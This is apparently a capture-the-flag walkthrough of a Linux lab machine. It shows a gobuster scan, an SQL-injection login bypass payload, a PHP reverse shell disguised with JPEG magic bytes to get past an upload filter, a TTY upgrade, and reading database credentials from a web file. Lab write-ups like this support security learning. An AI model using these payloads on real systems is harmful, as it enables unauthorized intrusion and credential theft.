 ## Services

### Port 22

Version - OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

We usually skip SSH.

## Web

### Port 80

Version - Apache httpd 2.4.29 ((Ubuntu))

```powershell
gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x .php -b 403,404
```

![image.png](image%202.png)

In the login page I tried `admin:admin`, `admin:password` but no result, then I tried SQL injection

```powershell
' or 1=1 limit 1 -- -
```

and got access to upload functionality.

![image.png](image%203.png)

let’s try to append jpg magic bytes to PHP reverse shell and upload it as I have done in another Linux machine Networked.

```powershell
echo 'FF D8 FF E0' | xxd -p -r > mime_shell.php
cat shell.php >> mime_shell.php
```

I used Ivan Sincek PHP reverse shell.

Now we have a shell let’s turn it to tty using:

```powershell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

I found `db.php5` file in web directories and there are credentials for MySQL instance.

![image.png](image%204.png)

## Lateral Movement

`mysql` client is not installed on the target machine that’s why I am gonna perform port forwarding and access it from attack machine.

[Port Forwarding with Chisel](https://notes.benheater.com/books/network-pivoting/page/port-forwarding-with-chisel)
